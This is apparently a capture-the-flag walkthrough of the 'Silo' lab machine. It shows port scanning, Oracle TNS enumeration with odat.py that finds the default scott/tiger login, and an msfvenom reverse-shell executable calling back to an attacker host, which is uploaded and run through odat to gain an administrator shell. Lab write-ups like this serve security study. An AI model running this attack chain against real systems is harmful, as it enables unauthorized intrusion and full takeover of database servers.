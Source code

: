 # Silo

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 5000 10.129.95.188 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-02 08:12 EDT
Warning: 10.129.95.188 giving up on port because retransmission cap hit (10).
Nmap scan report for 10.129.95.188
Host is up (0.013s latency).
Not shown: 65350 closed tcp ports (conn-refused), 170 filtered tcp ports (no-response)
PORT      STATE SERVICE
80/tcp    open  http
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
1521/tcp  open  oracle
5985/tcp  open  wsman
47001/tcp open  winrm
49152/tcp open  unknown
49153/tcp open  unknown
49154/tcp open  unknown
49155/tcp open  unknown
49159/tcp open  unknown
49160/tcp open  unknown
49161/tcp open  unknown
49162/tcp open  unknown
```

Lots of ports, including some I'm not familiar with like port 1521.

### Oracle RCE

I initially ran a few directory scans and SMB enumeration, but they all returned nothing interesting. So I decided to scan port 1521 in detail because I normally don't see that one.

```
$ sudo nmap -p 1521 -sC -sV -O -T4 10.129.95.188 
[sudo] password for kali: 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-02 08:15 EDT
Nmap scan report for 10.129.95.188
Host is up (0.0073s latency).

PORT     STATE SERVICE    VERSION
1521/tcp open  oracle-tns Oracle TNS listener 11.2.0.2.0 (unauthorized)
```

So this was an Oracle port. Based on Hacktricks, we can try using `odat.py` to attack this.

{% embed url="https://github.com/quentinhardy/odat" %}

We can run the enumeration to find all SIDs and possible passwords before attacking it.&#x20;

```
$ ./odat.py all -s 10.129.95.188 -p 1521 
<TRUNCATED OUTPUT>
[+] SIDs found on the 10.129.95.188:1521 server: XE
[+] Service Name(s) found on the 10.129.95.188:1521 server: XE,XEXDB
[+] Valid credentials found: scott/tiger. Continue...                  
```

We found the database and also some credentials, which I think is enough to exploit this system easily. With these, we can upload a reverse shell onto the server rather easily.&#x20;

First, we can create a reverse shell via `msfvenom`:

```
$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.13 LPORT=443 -f exe -o rev.exe
```

Then we can run the following commands:

{% code overflow="wrap" %}
```
$ ./odat.py utlfile -s 10.129.95.188 -d XE -U scott -P tiger --sysdba --putFile \\temp rev.exe rev.exe

[1] (10.129.95.188:1521): Put the rev.exe local file in the \temp folder like rev.exe on the 10.129.95.188 server
[+] The rev.exe file was created on the \temp directory on the 10.129.95.188 server like the rev.exe file

$ ./odat.py externaltable -s 10.129.95.188 -p 1521 -d XE -U scott -P tiger --sysdba --exec \\temp rev.exe         

[1] (10.129.95.188:1521): Execute the rev.exe command stored in the \temp path
```
{% endcode %}

We would gain a reverse shell as the administrator.&#x20;

<figure><img src="../../../.gitbook/assets/image (2) (1) (9).png" alt=""><figcaption></figcaption></figure>
